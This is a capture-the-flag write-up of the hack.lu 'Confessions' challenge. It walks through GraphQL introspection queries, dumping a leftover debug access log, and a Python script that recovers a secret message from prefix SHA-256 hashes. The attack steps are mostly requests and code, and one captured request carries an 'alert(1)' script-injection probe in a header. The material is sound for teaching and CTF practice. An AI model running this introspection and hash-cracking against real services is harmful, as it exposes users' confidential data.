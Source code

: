 # confessions

:::toc

## Introduction

This is a writeup for the "Confessions" challenge from the hacklu CTF. I consider this a great challenge, as it uses a technology, namely graphql, that isn't often used in most CTFs and due to me never having used it before required some searching, but not in an exaggerated way.

## Getting started

The start of all challenges: getting to know the challenge. In this case, the first thing we see is a pink page:

<img src="first_impression.png">

The functionality this page provides can be described as follows: You enter a title and a message, then receive a hash. You can post this hash anywhere and then, sometime in the future post a link containing the message.

This concept allows proving that you've got something afterwards. For example, I used such a concept in the nahamcon-CTF to prove my [complete flagleak](/ctf/writeups/2020/nahamconCTF/complete-flag-leak/). Overall, this allows proving that some information was accessible at some given time.

## Initial sourcecode view

After slightly inspecting the page, the next step would be to look into the page source:

> <!doctype html>
> <html>
>     <head>
>         <meta charset="utf-8">
>         <title>Confessions 💕</title>
>         <link rel="stylesheet" href="confessions.css">
>     </head>
>     <body>
>         <h1>
>             [Confessions](/)
>             💕
>         </h1>
> 
>         <div id="input">
>             <div class="description">
>                 Ever wanted to prove that you knew some secret without
>                 revealing it right away?
>                 <br><br>
>                 You can confess your deepest secrets here!
>                 Send the hash to anyone or post it.
>                 When you want to reveal the secret, just give them the link.
>                 They can then check that the hash matches the message,
>                 so they know that you knew that secret message when you
>                 published the hash!
>             </div>
> 
>             <input id="title" placeholder="Title">
>             <textarea id="message" placeholder="Enter your confession here..."></textarea>
>             <button id="publish">Publish</button>
> 
>             <h3>Preview:</h3>
>         </div>
> 
>         <div id="preview" class="confession">
>             <h4 class="title">&lt;title&gt;</h4>
> 
>             <div class="label">Hash</div>
>             <div class="hash">&lt;hash&gt;</div>
> 
>             <div class="label">Message</div>
>             <div class="message">&lt;message&gt;</div>
> 
>             <div class="label">How to verify</div>
>             <div class="how-to-verify">&lt;how to verify&gt;</div>
>         </div>
> 
>         <script src="confessions.js"></script>
>     </body>
> </html>


The page doesn't consist of much, there's some static html content, some css and some javascript. The static content doesn't do anything, so lets don't even bother into looking into it. The interesting part is the javascript, in this case, the confessions.js file. Let's go through it block by block:

The part below "talks with the GraphQL endpoint", so it communicates with the GraphQL system in the backend sending a JSON body containing the operation name (hardcoded to null), a query (more regarding that in the next block) and variables to the backend. It then reads the response and returns the response data.


> // talk to the GraphQL endpoint
> const gql = async (query, variables={}) => {
>     let response = await fetch('/graphql', {
>         method: 'POST',
>         headers: {
>             'content-type': 'application/json',
>         },
>         body: JSON.stringify({
>             operationName: null,
>             query,
>             variables,
>         }),
>     });
>     let json = await response.json();
>     if (json.errors && json.errors.length) {
>         throw json.errors;
>     } else {
>         return json.data;
>     }
> };


This block below defines the queries sent to the backend, these are used in the code above when sent to the backend. More on them later on.


> // some queries/mutations
> const getConfession = async hash => gql('query Q($hash: String) { confession(hash: $hash) { title, hash } }', { hash }).then(d => d.confession);
> const getConfessionWithMessage = async id => gql('mutation Q($id: String) { confessionWithMessage(id: $id) { title, hash, message } }', { id }).then(d => d.confessionWithMessage);
> const addConfession = async (title, message) => gql('mutation M($title: String, $message: String) { addConfession(title: $title, message: $message) { id } }', { title, message }).then(d => d.addConfession);
> const previewHash = async (title, message) => gql('mutation M($title: String, $message: String) { addConfession(title: $title, message: $message) { hash } }', { title, message }).then(d => d.addConfession);
> The next block is just a misleading comment, as this is just random foo not relevant in any way.


> // the important elements
> const title = document.querySelector('#title');
> const message = document.querySelector('#message');
> const publish = document.querySelector('#publish');
> const preview = document.querySelector('#preview');
> The block below renders a given confession. Nothing of interest here.


> // render a confession
> const show = async confession => {
>     if (confession) {
>         preview.querySelector('.title').textContent = confession.title || '<title>';
>         preview.querySelector('.hash').textContent = confession.hash || '<hash>';
>         preview.querySelector('.message').textContent = confession.message || '<message>';
>         preview.querySelector('.how-to-verify').textContent = `sha256(${JSON.stringify(confession.message || '')})`;
>     } else {
>         preview.innerHTML = '<em>Not found :(</em>';
>     }
> };


And the next block updates the preview.


> // update the confession preview
> const update = async () => {
>     let { hash } = await previewHash(title.value, message.value);
>     let confession = await getConfession(hash);
>     await show({
>         ...confession,
>         message: message.value,
>     });
> };
> title.oninput = update;
> message.oninput = update;


This block publishes the confession, it adds the confession to the backend and uses the given id to redirect to the url with the appended id that is used.


> // publish a confession
> publish.onclick = async () => {
>     title.disabled = true;
>     message.disabled = true;
>     publish.disabled = true;
> 
>     let { id } = await addConfession(title.value, message.value);
>     location.href = `#${id}`;
>     location.reload();
> };


This block uses the confession id given in the url and displays that confession.


> // show a confession when one is given in the location hash
> if (location.hash) {
>     let id = location.hash.slice(1);
>     document.querySelector('#input').remove();
>     getConfessionWithMessage(id).then(show).catch(() => document.write('F'));
> }


Now after having some basic understanding of what this javascript does, we need a better understanding of how this actually works, as in: what can we do?, what can we break?

## Initial usage

Well, we can insert a title and a message. While entering this, we get a live preview of the hash. If we look into the requests sent while typing, we see the following:

<img src="./lots_of_requests.png">

...lots and lots of requests to the /graphql endpoint. Thus our next task is born: looking into these requests.

## Inspecting the sent requests

The requests sent while entering stuff look like this:


> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
> User-Agent: alert(1)
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: https://confessions.flu.xxx/
> content-type: application/json
> Origin: https://confessions.flu.xxx
> Content-Length: 187
> Connection: close
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
> Pragma: no-cache
> Cache-Control: no-cache
> 
> {
>   "operationName": null,
>   "query": "query Q($hash: String) { confession(hash: $hash) { title, hash } }",
>   "variables": {
>     "hash": "014c3d0b13f6bc2d05dd32139a2178f17b1fe08ae5755882e9049817377f3c61"
>   }
> }


The interesting part here is the query, so from here on, I won't insert all headers into all requests.

## Playing with graphql

The [GraphQL](https://graphql.org/) documentation has a [great learning section](https://graphql.org/learn/), I used this to learn the basics used further down.

### Getting the schema

One of the first things I tried, was getting the schema used. this can be done using [graphql introspection](https://graphql.org/learn/introspection/):


> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
> 
> {
>   "operationName": null,
>   "query": "{__schema {types{name}}}",
>   "variables": {
>     "hash": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
>   }
> }
>  
> {
>   "data": {
>     "__schema": {
>       "types": [
>         {
>           "name": "Query"
>         },
>         {
>           "name": "Access"
>         },
> 
> 		...
> 
>         {
>           "name": "Int"
>         }
>       ]
>     }
>   }
> }


here all the "name" values:


> "Query"
> "Access"
> "String"
> "Confession"
> "Mutation"
> "__Schema"
> "__Type"
> "__TypeKind"
> "Boolean"
> "__Field"
> "__InputValue"
> "__EnumValue"
> "__Directive"
> "__DirectiveLocation"
> "CacheControlScope"
> "Upload"
> "Int"


### Getting the object fields

With the schema information acquired, we can get the fields for the objects:


> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
>  
> {
>   "operationName": null,
>   "query": "{__type(name: \"Confession\") {name, fields { name } }}",
>   "variables": {
>     "hash": "Confession"
>   }
> }
>  
> {
>   "data": {
>     "__type": {
>       "name": "Confession",
>       "fields": [
>         {
>           "name": "id"
>         },
>         {
>           "name": "title"
>         },
>         {
>           "name": "hash"
>         },
>         {
>           "name": "message"
>         }
>       ]
>     }
>   }
> }


We've already got this information: we can extract if from the queries defined in the javascript, but never the less, It's nice to know that there aren't more fields that we're possibly overlooking.


### Getting the types


When listing all types in the schema, we get an interesting result:


> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
>  
> {
>   "operationName": null,
>   "query": "{__schema {queryType{fields{name, description}}}}",
>   "variables": {
>     "hash": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
>   }
> }
>  
> {
>   "data": {
>     "__schema": {
>       "queryType": {
>         "fields": [
>           {
>             "name": "accessLog",
>             "description": "Show the resolver access log. TODO: remove before production release"
>           },
>           {
>             "name": "confession",
>             "description": "Get a confession by its hash. Does not contain confidential data."
>           }
>         ]
>       }
>     }
>   }
> }


The "accessLog" contains a description hinting that this should be removed before taking the application into production.

### Getting all access logs

As the "accessLog" should not be in production, there seems to be an error that is somehow critical. Thus, getting the accessLog seems like a logical next step. In order to get the accessLog, we first need to get the name of the fields in the accessLog, as we want to fetch all fields.


> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
> Cache-Control: no-cache
>  
> {
>   "operationName": null,
>   "query": "{__type(name: \"Access\"){name, kind, fields{name, description, type{name, kind, description}}}}",
>   "variables": {
>     "id": "40dbcdf5-31ec-428a-a42e-ec2f75452efe"
>   }
> }
>  
> {
>   "data": {
>     "__type": {
>       "name": "Access",
>       "kind": "OBJECT",
>       "fields": [
>         {
>           "name": "timestamp",
>           "description": "",
>           "type": {
>             "name": "String",
>             "kind": "SCALAR",
>             "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text."
>           }
>         },
>         {
>           "name": "name",
>           "description": "",
>           "type": {
>             "name": "String",
>             "kind": "SCALAR",
>             "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text."
>           }
>         },
>         {
>           "name": "args",
>           "description": "",
>           "type": {
>             "name": "String",
>             "kind": "SCALAR",
>             "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text."
>           }
>         }
>       ]
>     }
>   }
> }


As you can see, there are three fields: "timestamp", "name" and "args". With this information, we can now fetch the access log:


> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
>  
> {
>   "operationName": null,
>   "query": "{accessLog{timestamp, name, args}}",
>   "variables": {
>     "id": "40dbcdf5-31ec-428a-a42e-ec2f75452efe"
>   }
> }
>  
> {
>   "data": {
>     "accessLog": [
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:56 GMT+0000 (Coordinated Universal Time)",
>         "name": "addConfession",
>         "args": "{\"title\":\"<redacted>\",\"message\":\"<redacted>\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:56 GMT+0000 (Coordinated Universal Time)",
>         "name": "confession",
>         "args": "{\"hash\":\"252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:57 GMT+0000 (Coordinated Universal Time)",
>         "name": "addConfession",
>         "args": "{\"title\":\"<redacted>\",\"message\":\"<redacted>\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:57 GMT+0000 (Coordinated Universal Time)",
>         "name": "confession",
>         "args": "{\"hash\":\"593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:58 GMT+0000 (Coordinated Universal Time)",
>         "name": "addConfession",
>         "args": "{\"title\":\"<redacted>\",\"message\":\"<redacted>\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:58 GMT+0000 (Coordinated Universal Time)",
>         "name": "confession",
>         "args": "{\"hash\":\"c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83\"}"
>       },
> 
>       ...
> 
>       {
>         "timestamp": "Fri Oct 23 2020 16:09:08 GMT+0000 (Coordinated Universal Time)",
>         "name": "accessLog",
>         "args": "{}"
>       }
>     ]
>   }
> }


Now this is interesting. My first through was to use one of the predefined query strings in order to leak the message, but the provided function taking in a hash doesn't return the message, but just the title of the message, so we need to find another solution...

## Extracting the message

One of the first things to do when getting a hash, is to throw it into crackstation and find out if it is crackable, so we extract the hashes from the accessLog response and throw the first few into crackstation. We get this as a result:

<img src="./crackstation.png">

As you can see, the first n hashes consist of the first n chars from the flag. Due to crackstations wordlist not knowing the rest of the flag format, it can't show us a result. But we've got the next hashes, so in order to find out what that next char after flag is, we can simply try out all possible combinations (flaga, flagb, ...), hash them and compare the hash with the hash we've got:


> import hashlib
>  
> hashes = [
> "252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111",
> "593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6",
> "c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83",
> "807d0fbcae7c4b20518d4d85664f6820aafdf936104122c5073e7744c46c4b87",
> "0577f6995695564dbf3e17ef36bf02ee73ba10ab300caf751315615e0fc6dd37",
> "9271dd87ec1a208d1a6b25f8c4e3b21e36c75c02b62fafc48cf1327bac220e48",
> "95f5e39cb28767940602ce3241def53c42d399ae1daf086c9b3863d50a640a81",
> "62663931ff47a4c77e88916d96cad247f6e2c352a628021a1b60690d88625d75",
> "5534607d1f4ee755bc11d75d082147803841bc3959de77d6159fca79a637ac77",
> "52a88481cc6123cc10f4abb55a0a77bf96d286f457f6d7c3088aaf286c881b76",
> "7ffcb9b3a723070230441d3c7aee14528ca23d46764c78365f5fdf24d0cdef53",
> "532e4cecd0320ccb0a634956598c900170bd5c6f1f22941938180fe719b61d37",
> "a4b24c8f4f14444005c7023e9d2f75199201910af98aaef621dc01cb6e63f1d1",
> "1092c20127f3231234eadf0dd5bee65b5f48ffbdc94e5bf928e3605781a8c0d1",
> "1e261929cc13a0e9ecf66d3e6508c14b79c305fa10768b232088e6c2bfb3efa3",
> "0bb629dfb5bf8a50ef20cfff123756005b32a6e0db1486bd1a05b4a7ddfd16c7",
> "0141c897af69e82bc9fde85a4c99b6e693f6eb390b9abdeda4a34953f82efa4b",
> "c20ee107ba4d41370cc354bb4662f3efb6b7c14e7b652394aaa1ad0341e4a1c9",
> "d6b977c1deb6179c7b9ac11fb2ce231b100cf1891a1102d02d8f7fbea057b8a0",
> "fb7dc9b1be6477cea0e23fdc157ff6b67ce075b70453e55bb22a6542255093f1",
> "70b652dad63cabed8241c43ba5879cc6d509076f778610098a20154eb8ac1b89",
> "26f4fc4aba06942e5e9c5935d78da3512907fe666e1f1f186cf79ac14b82fcad",
> "c31c26dbbcf2e7c21223c9f80822c6b8f413e43a2e95797e8b58763605aaca0d",
> "eb992e46fb842592270cd9d932ba6350841966480c6de55985725bbf714a861d",
> "c21af990b2bd859d99cfd24330c859a4c1ae2f13b0722962ae320a460c5e0468",
> "ebf2b799b6bf20653927092dae99a6b0fc0094abc706ca1dce66c5d154b4542d",
> "07a272d52750c9ab31588402d5fb8954e3e5174fcab9291e835859a5f8f34cf9",
> "5a047cba5d6e0cf62d2618149290180e1476106d71bd9fdb7b1f0c41437c2ff5"
> ]
>  
> flag = ""
>  
> for hash in hashes:
>  
> 	# build all hashes for most of the ascii range
> 	for i in range(32, 126):
>  
> 		# define the hash
> 		m = hashlib.sha256()
> 		m.update(str(flag + str(chr(i))).encode("utf-8"))
>  
> 		# if the hash of the guessed char equals the given hash, add the
> 		# char to the flag
> 		if m.hexdigest() == hash.strip("\n"):
> 			print(chr(i), end="")
> 			flag += chr(i)
> 			break
> 
> print(flag)

> flag{but_pls_d0nt_t3ll_any1}


And finally, we get the flag!